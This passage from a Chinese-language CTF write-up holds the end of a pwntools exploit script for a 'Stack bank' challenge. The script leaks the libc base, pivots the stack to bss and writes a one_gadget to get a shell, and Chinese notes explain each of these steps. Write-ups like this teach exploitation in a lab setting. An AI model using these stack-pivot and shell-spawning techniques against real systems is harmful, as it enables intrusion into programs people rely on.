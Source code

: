 ```plain
leak('libc_base',libc_base)
system=libc_base+libc.symbols['system']
leak('system',system)

ru("Welcome to Stack bank,Tell me what you want\n")
pl3='a'*0x60+p64(bank)+p64(leave_ret)
s(pl3)
one_gadget=libc_base+0x4526a

ru("Done!You can check and use your borrow stack now!\n")
pl4=p64(0) + p64(one_gadget) +p64(0)*10
#pl4=p64(0)+p64(rdi_addr)+p64(next(libc.search('/bin/sh\00')))+p64(system)
s(pl4)

p.interactive()
```

[![](assets/1701612250-744faa939e509dacb9a61a6a0a950da9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230725214656-b8b76e2e-2af1-1.png)

继续解释一下 exp

*   第一个框，这里是将栈迁移到 bss 段，但是得留出一段写入 ROP 链的地方，所以我这里是在 bss 段多偏移了 0xc0 的距离，留了很大的一块空间
*   第二个框，这里就是引用了一段 gadget 进行泄露 puts 的 got 表，之后再返回 main()
*   第三个框，这里就是再进行一次栈迁移
*   第四个框，将我们的 onegadget 写入栈帧，后面的 p64(0)\*7 是为了保持栈的完整性

##### 后话

这里有个点需要注意，这个题目需要在 exp 前面加上一个 #coding=utf-8，不然我们 ru 接收不了，编码的问题

### \[Black Watch 入群题\]PWN

#### 第一个 read 不存在溢出，第二个 read() 存在溢出

**file&checksec**
